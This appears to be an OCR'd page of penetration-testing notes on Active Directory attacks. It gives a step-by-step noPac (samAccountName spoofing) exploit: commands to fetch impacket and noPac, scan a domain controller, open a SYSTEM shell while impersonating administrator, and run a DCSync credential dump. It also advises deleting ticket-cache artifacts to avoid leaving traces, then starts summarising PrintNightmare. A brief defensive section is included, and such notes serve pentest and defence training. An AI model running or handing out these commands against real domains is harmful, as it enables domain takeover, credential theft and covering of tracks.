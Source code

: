 **Attack Flow:**
1. By default, domain users can add up to 10 machines to the domain.
2. The attacker renames a machine account to match a DC’s `SamAccountName`.
3. When Kerberos issues a **Ticket Granting Service (TGS)**, it matches the renamed machine account to the DC and grants elevated privileges.
4. This allows the attacker to impersonate the DC, execute commands as **NT AUTHORITY\SYSTEM**, or perform **DCSync** attacks to extract sensitive credentials.

**Steps to Exploit:**
1. **Preparation:**
   - Clone and install required tools:
     ```bash
     git clone https://github.com/SecureAuthCorp/impacket.git
     python setup.py install
     git clone https://github.com/Ridter/noPac.git
     ```
   
2. **Scan for Vulnerability:**
   - Use `scanner.py` to check if the target is vulnerable:
     ```bash
     python3 scanner.py domain/username:password -dc-ip <DC_IP> -use-ldap
     ```
   - Indicators of vulnerability:
     - `ms-DS-MachineAccountQuota` is > 0 (default is 10).
     - TGT is successfully obtained.

3. **Exploit:**
   - Gain a SYSTEM shell:
     ```bash
     python3 noPac.py domain/username:password -dc-ip <DC_IP> -dc-host <DC_HOST> -shell --impersonate administrator -use-ldap
     ```
   - Save and use TGT tickets for additional attacks:
     - Example: **DCSync attack**:
       ```bash
       python3 noPac.py domain/username:password -dc-ip <DC_IP> -dc-host <DC_HOST> --impersonate administrator -dump
       ```

**Post-Exploitation Considerations:**
- Clean up artifacts like `.ccache` files to avoid leaving traces.
- Review saved tickets for extended attacks like Pass-the-Ticket.

**Defensive Measures:**
- Set `ms-DS-MachineAccountQuota = 0` to prevent users from adding machine accounts.
- Regularly audit and monitor Kerberos ticket activity for anomalies.



#### **2. PrintNightmare**
**Key Details:**
- **Vulnerability:** Exploits flaws in the **Print Spooler service**:
  - **CVE-2021-34527**: Remote code execution.
  - **CVE-2021-1675**: Privilege escalation.
- **Discovered:** 2021.
- **Impact:** Provides an attacker with **SYSTEM-level privileges** by uploading and executing malicious DLLs remotely.
- **Mechanism:** Uses vulnerable **MS-RPRN** and **MS-PAR** protocols to manipulate the Print Spooler.
